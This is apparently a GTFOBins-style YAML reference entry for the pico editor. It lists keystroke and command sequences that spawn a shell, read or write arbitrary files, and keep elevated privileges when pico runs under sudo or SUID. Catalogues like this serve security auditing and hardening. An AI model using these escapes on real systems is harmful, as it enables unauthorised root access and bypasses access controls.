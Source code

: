 ```yaml
---
functions:
  shell:
    - code: |
        pico
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        pico -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./pico
        ^R^X
        reset; sh 1>&0 2>&0
  sudo:
    - code: |
        sudo pico
        ^R^X
        reset; sh 1>&0 2>&0
---
```


